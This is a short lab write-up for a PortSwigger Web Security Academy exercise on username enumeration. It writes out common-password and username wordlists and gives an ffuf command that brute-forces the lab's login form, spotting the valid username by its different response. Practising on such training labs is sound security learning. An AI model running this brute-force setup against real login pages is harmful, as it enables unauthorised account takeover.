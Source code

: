 https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses

first set the passwords word list:
```sh
echo "123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
1234567890
michael
654321
superman
1qaz2wsx
7777777
121212
000000
qazwsx
123qwe
killer
trustno1
jordan
jennifer
zxcvbnm
asdfgh
hunter
buster
soccer
harley
batman
andrew
tigger
sunshine
iloveyou
2000
charlie
robert
thomas
hockey
ranger
daniel
starwars
klaster
112233
george
computer
michelle
jessica
pepper
1111
zxcvbn
555555
11111111
131313
freedom
777777
pass
maggie
159753
aaaaaa
ginger
princess
joshua
cheese
amanda
summer
love
ashley
nicole
chelsea
biteme
matthew
access
yankees
987654321
dallas
austin
thunder
taylor
matrix
mobilemail
mom
monitor
monitoring
montana
moon
moscow
" >./password-list.txt
```

```sh
echo "carlos
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
academico
acceso
access
accounting
accounts
acid
activestat
ad
adam
adkit
admin
administracion
administrador
administrator
administrators
admins
ads
adserver
adsl
ae
af
affiliate
affiliates
afiliados
ag
agenda
agent
ai
aix
ajax
ak
akamai
al
alabama
alaska
albuquerque
alerts
alpha
alterwind
am
amarillo
americas
an
anaheim
analyzer
announce
announcements
antivirus
ao
ap
apache
apollo
app
app01
app1
apple
application
applications
apps
appserver
aq
ar
archie
arcsight
argentina
arizona
arkansas
arlington
as
as400
asia
asterix
at
athena
atlanta
atlas
att
au
auction
austin
auth
auto
autodiscover" >./username-list.txt
```
Then use it for fuzzing, the number of threads, the number after the `-t` flag, may vary from your computer, internet, processor
```sh
ffuf -u https://0ab1002b0360d24e80abbde700db0052.web-security-academy.net/login -X POST -d "username=W1&password=W2" -w username-list.txt:W1 -w password-list.txt:W2 -ac -c -t 200
```
In this line fuff is detecting automatically a common pattern with the flag `-ac` and the username that start to appear, probably es the correct one, just wait for some clear difference between the others request. There's a name which has a clear distintion.
![[Pasted image 20250321002057.png]]
So i just bruteforce for that one then i nail it
![[Pasted image 20250321002220.png]]